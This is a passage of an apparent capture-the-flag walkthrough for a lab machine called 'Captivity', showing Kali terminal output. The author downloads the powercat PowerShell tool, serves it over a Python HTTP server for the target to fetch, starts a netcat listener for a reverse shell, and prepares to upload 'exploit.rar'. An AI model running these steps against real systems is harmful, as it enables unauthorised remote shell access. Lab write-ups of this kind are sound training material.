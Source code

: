 ```
ok..
```

Now we need to download and host powercat.ps1.
```
┌──(kali㉿kali)-[~/Captivity]
└─$ wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
--2023-09-29 06:55:51--  https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 37667 (37K) [text/plain]
Saving to: ‘powercat.ps1’

powercat.ps1                      100%[===========================================================>]  36.78K  --.-KB/s    in 0.03s   

2023-09-29 06:55:51 (1.18 MB/s) - ‘powercat.ps1’ saved [37667/37667]

                                                                                                                                      
┌──(kali㉿kali)-[~/Captivity]
└─$ python -m http.server 80                                                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
In a separate tab start a listener.
```
┌──(kali㉿kali)-[~/Captivity]
└─$ nc -nvlp 443
listening on [any] 443 ...
```

Now it is time to upload exploit.rar to the application. 

![Alt text](Screenshots/file-hosting-upload-exploit.png)
